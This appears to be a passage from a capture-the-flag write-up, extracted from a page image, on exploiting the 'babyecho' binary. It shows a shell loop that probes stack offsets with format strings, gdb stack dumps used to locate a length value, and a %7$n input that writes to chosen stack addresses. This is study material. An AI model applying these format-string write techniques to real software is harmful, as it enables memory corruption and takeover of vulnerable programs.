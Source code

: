 ```
<p>The maximum length for the string is 13 - 0x0d - bytes. Presumably that value is stored on the stack somewhere, and it is:</p>

$ <span class="in">for i in `seq 1 2000`; do echo -e "$i:0x%$i\$x" | ./babyecho; done | grep ":0xd$"</span>
1:0xd
4:0xd
246:0xd
385:0xd

<p>The problem is, to write that, we need an absolute address. "AAAA%7$n" writes to the address "AAAA", but we need to know which address those 0xd's live at.</p>
<p>There are a lot of different ways to do this, but none of them are particularly nice. One of the easiest ways is to use one of those corefiles from earlier, grab the 'esp' register (the stack pointer), and read upwards from esp till we hit the top of the stack.</p>
<p>The most recent corefile was caused by trying to write to 0x41414141, which is just fine. We're going to basically read everything on the stack at the time it crashed (somewhere in printf()):</p>

(gdb) <span class="in">x/i $eip</span>
=> 0x8080c2a:   mov    DWORD PTR [eax],ecx
(gdb) <span class="in">print/x $esp</span>
$2 = 0xffff9420
(gdb) <span class="in">x/10000xw $esp</span>
0xffff9420:     0xffff94b0      0x00000000      0x0000001c      0x00000000
0xffff9430:     0x00000000      0x00000000      0x00000000      0x00000000
0xffff9440:     <span class="in">0x0000000d</span>      0x00000000      0x00000000      0x0000000a
...
0xffff9460:     0x00000000      <span class="in">0x0000000d</span>      0x00000000      0x00000000
...
0xffffc690:     <span class="in">0x0000000d</span>      0xffffc69c      0x00000000      0x41414141
0xffffc680:     0xffffc69c      <span class="in">0x0000000d</span>      0x0000000a      0x00000000
...
0xffffca50:     0x00000028      0x00000007      <span class="in">0x0000000d</span>      0x00008000
0xffffdff0:     0x65796261      0x006f6863      0x00000000      0x00000000
0xffffe000:     Cannot access memory at address 0xffffe000

<p>So we have five instances of 0x0000000d:</p>
```

- 0xffff9440
- 0xffff9464
- 0xffffc684
- 0xffffc690
- 0xffffca58

We try modifying each of them using our %n arbitrary write to see what happens:

```

$ <span class="in">echo -e '\x40\x94\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
```

